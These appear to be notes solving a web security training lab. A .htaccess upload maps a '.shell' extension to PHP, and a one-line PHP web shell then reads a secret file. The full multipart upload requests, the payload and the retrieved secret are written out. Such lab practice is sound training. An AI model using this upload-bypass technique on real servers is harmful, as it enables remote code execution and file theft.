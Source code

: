 # Web shell upload via extension blacklist bypass

## This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

## To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

NOTE:
application/x-httpd-php => for .php
now
application/x-httpd-php .shell => .shell but php code will run

### step1

upload image file and intercept send to repaeter

delete png data

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV

### Content-Disposition: form-data; name="avatar"; filename="meme.jpg"

### Content-Type: image/jpeg

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="user"

---

now change filename="meme.jpg" and Content-Type: image/jpeg

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV

### Content-Disposition: form-data; name="avatar"; filename=".htaccess"

### Content-Type: text/plain

### AddType application/x-httpd-php .shell

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="user"

---

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="avatar"; filename="test.shell"

### Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryYGdUrBsBP2Tz4JmV
Content-Disposition: form-data; name="user"

---

### step2

GET /files/avatars/test.shell HTTP/1.1
into repeater
INkA8n9c9l0NSJwt2lPwWqq91R0qesDb

submit lab solved
